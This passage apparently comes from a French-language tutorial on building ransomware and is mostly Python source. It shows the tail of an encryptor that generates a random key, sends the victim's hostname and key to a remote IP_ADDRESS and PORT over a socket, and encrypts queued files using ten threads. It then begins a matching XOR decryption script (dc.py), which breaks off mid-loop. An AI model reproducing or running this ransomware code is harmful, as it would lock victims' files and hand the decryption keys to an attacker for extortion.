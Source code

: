 ```python
print("Generating encryption key...")
key = ''
for i in range(

ENCRYPTION_LEVEL):
    key += key_char_pool[random.randint(0, key_char_pool_len - 1)]
print("Key Generated!!!")

# Se connecter au serveur pour transférer la clé et le nom d'hôte
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((IP_ADDRESS, PORT))
    print('Successfully connected... transmitting hostname and key')
    s.send(f'{hostname} : {key}'.encode('utf-8'))
    print('Finished transmitting data!')
    s.close()

# Créer la file d'attente des fichiers à crypter
q = queue.Queue()
for f in abs_files:
    q.put(f)

# Configurer les threads pour le chiffrement
for i in range(10):
    t = threading.Thread(target=encrypt, args=(key,), daemon=True)
    t.start()

q.join()
print('Encryption and upload complete!!!')
input()
```

[Revenir en haut](#table-des-matières)

#### 4.2 Création du script de déchiffrement (dc.py)

Ce script déchiffre les fichiers cryptés en utilisant une clé fournie par l'utilisateur.

```python
import os
import threading
import queue

# Fonction de décryptage
def decrypt(key):
    while True:
        file = q.get()
        print(f'Decrypting {file}')
        try:
            key_index = 0
            max_key_index = len(key) - 1
            decrypted_data = ''
            
            with open(file, 'rb') as f:
                data = f.read()
            
            with open(file, 'w') as f:
                f.write('')
            
            for byte in data:
                xor_byte = byte ^ ord(key[key_index])
                with open(file, 'ab') as f:
                    f.write(xor_byte.to_bytes(1, 'little'))
                
                # Incrementer l'index de la clé
                if key_index >= max_key_index:
```